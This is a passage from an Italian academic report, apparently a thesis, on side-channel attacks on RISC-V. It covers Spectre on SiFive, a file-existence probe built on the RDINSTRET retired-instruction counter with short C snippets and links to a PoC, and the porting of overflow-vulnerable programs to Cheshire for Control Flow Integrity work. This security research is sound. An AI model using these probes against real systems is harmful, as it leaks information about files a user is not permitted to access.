    
\includegraphics[width=1\linewidth]{images/strace-sifive.png}
    \caption{Attacco Spectre su Sifive}
\end{figure}
\vspace{1cm}
\FloatBarrier
Come si vede nel test eseguito, il processore non implementando la speculative execution (ma solo la limited speculation) manda il programma in \textit{SIGILL} (illegal istruction), ovvero segnala al kernel che l'istruzione richiesta non è implementata e fa terminare preventivamente l'esecuzione.\\
In generale, più un processore è ottimizzato, più è vulnerabile ad attacchi di tipo side-channel, quindi è importante mantenere il giusto grado di performance, ma si deve porre l'attenzione anche sulla sicurezza. In caso un processore implementi questo tipo di speculazione, in base al sistema operativo sono presenti delle mitigazioni software che indeboliscono in parte questi attacchi.
\subsection*{Attacchi basati su Performance Counter}
\addcontentsline{toc}{subsection}{Attacchi basati su Performance Counter}
In molte implementazioni RISC-V è presente un counter che mantiene al suo interno il numero di istruzioni ``retired" durante l'esecuzione del programma. Come scritto \href{https://www.scs.stanford.edu/~zyedidia/docs/sifive/sifive-u74.pdf}{nel manuale di SiFive}, in questo caso il counter si chiama \textit{RDINSTRET (rd)} e memorizza il numero di istruzioni ritirate a partire da un determinato istante t nel passato. Questo counter è in userspace ed è accessibile a tutti. In genere, i 3 counter che mette a disposizione SiFive sono \textit{RDCYCLE}, \textit{RDTIME} e \textit{RDINSTRET}.\\
\newline
Seguento \href{https://github.com/cispa/Security-RISC/blob/main/rlibsc.h}{questa PoC}, l'attaccante si può fornire quindi del seguente pezzo di codice per stampare arbitrariamente il numero di istruzioni ad un istante T di esecuzione del programma.
\begin{minted}[escapeinside=||,mathescape=true]{c}
static inline size_t rdinstret() {
  size_t val;
  asm volatile("rdinstret %0" : "=r"(val));
  return val;
}
\end{minted}
Il valore del registro cambia nel tempo con il numero di istruzioni che vengono eliminate. Grazie a questo l'attaccante può capire quante sono state le istruzioni di cui viene fatto il prefetch, ma che poi vengono ritirate a causa della mancato ``branch taken".
\begin{minted}[escapeinside=||,mathescape=true]{c}
size_t before = rdinstret();
f = fopen(p, "r");
size_t after = rdinstret();
size_t delta = after - before;
\end{minted}
Utilizzando questo snippet di codice insieme ad una operazione di sistema, si può capire se l'istruzione che deve essere eseguita è stata effettivamente eseguita o meno.\\
A livello di codice, se lo snippet incontra un \textit{NULL} a ritorno di una funzione, considera l'istruzione come prefetched ed annullata, altrimenti la considera come eseguita correttamente.\\
\newline
Una Proof Of Concept che sfrutta questo performance counter è presente a \href{https://github.com/cispa/Security-RISC/tree/main/access-retired}{questo indirizzo}.\\
Lo scopo dell'attacco è raccogliere informazioni su elementi di sistema non normalmente accessibili a causa di permessi mancanti dall'utente che esegue lo script. Grazie ai performance counter il processore segnala preventivamente che l'operazione va a buon fine ed il sistema operativo interviene solamente in seguito applicando le policy di accesso DAC (Discretionary Access Control).\\
Se il file è presente nel sistema i performance counter nonostante l'utente non abbia i privilegi per accedere al file, segnalano che le istruzioni vengono ritirate. Ci sarà ``più entropia" di istruzioni ritirate quindi quando la funzione \textit{open()} restituirà NULL a causa delle policy di accesso del sistema. In questo modo l'attaccante riesce a raccogliere l'informazione che il file che sta cercando è presente nel sistema, ma non può accederci.\\
Di seguito è presentata la PoC che dimostra come l'attaccante fornendo solamente il nome del file (a cui non ha accesso) riesce a capire in base al numero di istruzioni ritirate se il file è presente o meno in una determinata cartella.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/access-retired.png}
    \caption{PoC di attacco tramite Performance Counters}
\end{figure}
\vspace{1cm}
\FloatBarrier
Per capire meglio questo tipo di attacco e come sfruttarlo, di seguito è presentato un pezzo di codice che racchiude quanto detto sopra. Sono presenti 100 istruzioni NOP che vengono tradotte nell'architettura, come detto prima, in una istruzione assembly \textit{ADDI x0, x0, 0}.\\
Se il branch \textit{if (COND)} viene preso ci saranno quindi 100 istruzioni in più rispetto a quando il branch non viene preso.
\begin{minted}[escapeinside=||,mathescape=true]{c}
size_t before = rdinstret();
if (COND){	
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
  }
size_t after = rdinstret();
\end{minted}
Se \textit{COND = 0}, controintuitivamente le istruzioni di cui viene fatto il prefetch non vengono poi ritirate perché non eseguite 
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/nop-false.png}
    \caption{NOP COND = 0}
\end{figure}
\vspace{1cm}
\FloatBarrier
Se \textit{COND = 1} le istruzioni NOP vengono invece eseguite e in seguito ritirate probabilmente perché sono istruzioni non utili al fine di esecuzione del programma.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/nop-true.png}
    \caption{NOP COND = 1}
\end{figure}
\vspace{1cm}
\FloatBarrier
Le due esecuzioni quindi differiscono di un valore di 100 istruzioni, ovvero le 100 NOP che in un caso vengono e ritirate e nell'altro caso no.\\
\newline
Con questo tipo di attacchi side channel, se pur molto complessi e non sempre utilizzabili, è a volte possibile catturare informazioni che altrimenti non sarebbe possibile registrare. L'attaccante usando un approccio side-channel unito a metodologie bruteforce, può venire a conoscenza di file nascosti nel sistema o costruire attacchi specifici alla memoria.
\section*{Porting degli attacchi su Cheshire}
\addcontentsline{toc}{section}{Porting degli attacchi su Cheshire}
Utilizzando la piattaforma Cheshire, è stato possibile far girare dei programmi su core RISC-V basato su CVA6. Per fare questo è stato necessario tradurre i programmi C in programmi ``più semplici" senza far uso di funzioni di libreria vulnerabili, come la \textit{strcpy()} che fa parte della libreria \textit{string.h} ed implementando il codice manualmente.\\
La stessa funzione \textit{printf()} non essendo disponibile, è stata emulata tramite la scrittura su interfaccia \textit{UART}, leggibile tramite l'emulatore.\\
\newline
Sono state inoltre disattivate tutte le ottimizzazioni nel programma compilato perché il compilatore applica politiche di ``const-propagation", come si vede in figura \ref{ref:constprop} e ogni elemento statico o costante viene ottimizzato e scritto direttamente ``inline" nel codice. In aggiunta, il compilatore genera solo codice linkato staticamente, evitando tutti gli shared object ed è quindi impossibile generare codice dipendente da \textit{libc} esterne, rendendo molto più difficile attacchi come return oriented programming.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/strcpy-constprop.png}
    \caption{Const-propagation \textit{strcpy()}}
    \label{ref:constprop}
\end{figure}
\vspace{1cm}
\FloatBarrier
In seguito a questo porting di programmi vulnerabili a buffer overflow su Cheshire, sarà possibile agganciare dei controlli di Control Flow Integrity disponibili per questo tipo di piattaforme, sia su sistemi Linux emulati sia su piattaforme RISC-V su FPGA.